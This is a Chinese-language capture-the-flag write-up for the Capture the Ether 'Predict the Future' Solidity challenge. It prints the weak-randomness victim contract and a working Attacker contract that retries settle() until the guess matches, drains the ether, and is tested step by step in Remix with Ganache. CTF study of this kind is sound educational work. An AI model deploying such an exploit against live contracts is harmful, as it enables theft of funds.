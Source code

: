 This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

Note that it is indeed possible to solve this challenge without losing any ether.

```solidity
pragma solidity ^0.4.21;

// 0xd9aD89E42a9b19b499cD0D63F7Ec76a5b708E43B
contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```







参考链接1：https://coinsbench.com/capture-the-ether-predict-the-future-cb5acf12a8cb

参考链接2：https://cmichel.io/capture-the-ether-solutions/

参考链接3：https://www.anquanke.com/post/id/154104#h3-5

这个puzzle需要调用**lockInGuess**先用输入答案，再调用**settle**来检查之前输入的答案对不对，但是执行**lockInGuess**时会将**settlementBlockNumber**设置为当前block.number + 1，而执行**settle**的时候则需要当前block.number大于**settlementBlockNumber**，这意味着无法在同一个交易中先**lockInGuess**再**settle**，因为同一笔交易中的block.number是一样的

解法如下代码所示，先调用**lockNum**，然后重复不断调用**attack**直到尝试成功，不成功会revert，不会将**guesser**置为0，也就不需要重新执行**lockInGuess**，只需要不断尝试**attack**就可以了

```solidity
pragma solidity ^0.8.0;

interface PredictTheFutureChallenge {
    function isComplete() external view returns (bool) ;

    function lockInGuess(uint8 n) external payable ;

    function settle() external ;
}

// 0x9c6c2E60295b8BA499C19FA6cDdCeDA5A9E09Db4
contract Attacker {
    address public owner;
    PredictTheFutureChallenge public victim;

    constructor(address _addr) {
        owner = msg.sender;
        victim = PredictTheFutureChallenge(_addr);
    }

    function lockNum(uint8 n) external payable{
        require(n >= 0 && n <=9, "Number must be in the 0-9 range");

        victim.lockInGuess{value: 1 ether}(n);
    }

    function attack() external payable{
        victim.settle();
        require(victim.isComplete(), "Wrong answer");
    }

    function withdraw() external {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {}
}
```



对本puzzle在我自己环境下进行试验，环境为remix连接ganche

```solidity
		function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }
```

![](predictthefuturedeploy1.png)

![](predictthefuturedeploy2.png)

先部署**PredictTheFutureChallenge**合约，记得在部署的时候携带1 ether，因为其在构造函数中要求了，部署完之后可以看到**PredictTheFutureChallenge**合约中有1 ETH的余额

![](attackerdeploy1.png)

![](attackerdeploy2.png)

再部署**Attacker**合约，在部署的时候传入**PredictTheFutureChallenge**的地址，可以看到victim的值是**PredictTheFutureChallenge**的地址

![](locknum1.png)

![](locknum2.png)

接着调用**lockNum**，传入一个[0,9]区间的值并携带1 ether，这里我们传入6，交易成功mining之后，我们可以看到**PredictTheFutureChallenge**合约中有2 ETH的余额

![](warning.png)

最后不断调用**attack**并携带1 ether，这时会弹出一个警告，不要理它，点击Send Transaction

![](attack.png)

如果计算出的数字不是6就会revert，在log输出区可以看到日志信息：revert Wrong answer，在若干次revert之后终于成功mining，此时可以看到**PredictTheFutureChallenge**合约中的余额变为0，而Attacker的余额变为3 ETH了。

